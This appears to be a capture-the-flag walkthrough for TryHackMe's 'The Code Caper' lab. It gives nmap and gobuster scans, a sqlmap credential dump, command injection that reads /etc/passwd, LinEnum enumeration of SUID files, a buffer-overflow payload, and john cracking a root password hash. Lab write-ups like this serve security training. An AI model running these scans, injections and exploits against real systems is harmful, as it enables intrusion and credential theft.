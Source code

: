 # The Code caper

[Link to room](https://tryhackme.com/room/thecodcaper)

echo <machine-ip> codcaper.com >> /etc/hosts.com

Host-Enumeration

```nmap
# Nmap 7.80 scan initiated Fri May 29 10:13:06 2020 as: nmap -sV -sC -A -p 1-1000 -oN nmap.txt 10.10.9.78
Nmap scan report for 10.10.9.78
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/29%OT=22%CT=1%CU=39823%PV=Y%DS=2%DC=T%G=Y%TM=5ED1189
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11
OS:NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   183.91 ms 10.9.0.1
2   184.02 ms 10.10.9.78

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 29 10:13:41 2020 -- 1 IP address (1 host up) scanned in 34.69 seconds
```

1. How many ports are open on the target machine?

> 2

2. What is the http-title of the web server?

> http-title of nmap scan

3. What version is the ssh service?

> use nmap -sV to check for versions 

4. What is the version of the web server?

> http-server-header of nmap


## Web Enumeration
1. What is the name of the important file on the server?

```bash
gobuster dir -u http://codcaper.com -w /usr/share/SecLists/Discovery/Web-Content/big.txt -t 40 -x php,html,txt
```
```
===============================================================                                                                                              
2020/06/17 03:36:26 Starting gobuster                                                                                                                        
===============================================================
/administrator.php (Status: 200)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.txt (Status: 403)
===============================================================
2020/06/17 03:36:34 Finished
===============================================================
```

## Web Exploitation

```bash
sqlmap -u http://codcaper.com/administrator.php --forms --dump
```
1. What is the admin username?
2. What is the admin password?

```
Database: users
Table: users
[1 entry]
+----------+------------+
| username | password   |
+----------+------------+
| pingudad | secretpass |
+----------+------------+
```

3. How many forms of SQLI is the form vulnerable to?

> 3


## Command Injection

go to codcaper.com/administrator.php and enter the credentials

###### Getting shell by command injection

1. How many files are in the current directory?

> run ls 

2. Do I still have an account?

> cat /etc/passwd and check if pingu exists

3. What is my ssh password?

> find / -name pass and cat it 

Login by ssh as pingu

## LinEnum 

```bash
scp {path to linenum} {user}@{host}:{path}. Example: scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp
```
1. What is the interesting path of the interesting suid file

```
[-] SUID files:
-r-sr-xr-x 1 root papa 7516 Jan 16 21:07 /opt/secret/root
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
```

Syntax error in method 2 , so here is the code without errors
```
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'
```
1. What is the root password!

```bash
echo '$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.' > hash
john --wordlist=/usr/share/wordlist/rockyou.txt hash
```


